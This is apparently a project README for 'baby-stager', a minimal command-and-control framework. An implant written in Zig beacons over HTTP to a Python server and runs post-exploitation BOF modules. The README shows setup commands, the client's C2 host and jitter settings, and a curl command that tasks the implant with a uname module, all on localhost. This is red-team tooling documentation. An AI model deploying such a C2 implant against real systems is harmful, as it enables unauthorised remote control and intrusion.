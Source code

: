 # baby-stager

## Description

Simple C2 solution that uses BOFs as its post-exploitation modules and communicates over HTTP with the C2 server.

## Usage

Configure backend (host and port) in `utils/serve_bofs.py` file:

```
if __name__ == '__main__':
    app.run(host='127.0.0.1',port=8000,debug=True)
```

Launch C2 server:

```
mkdir -p doc_root/bofs/
cp bof-launcher/utils/serve_bofs.py doc_root/

cp bof-launcher/zig-out/bin/uname.elf.x64.o doc_root/bofs/
cd doc_root/
python serve_bofs.py
```

Configuring and runnig the client:

```
$ head examples/baby-stager/src/main.zig 
const std = @import("std");
const assert = std.debug.assert;
const bof = @import("bof_launcher_api");

const c2_host = "127.0.0.1:8000";
const c2_endpoint = "/endpoint";
const jitter = 3;

const stdout = std.io.getStdOut();

$ zig build

$ ./zig-out/bin/baby-stager_lin_x64
```

Tasking client to run `uname.elf.x64.o` BOF:

```
curl -H 'Content-Type: application/json' -d '{ "name" : "bof:uname", "header" : "inline:z" }' http://127.0.0.1:8000/tasking
```


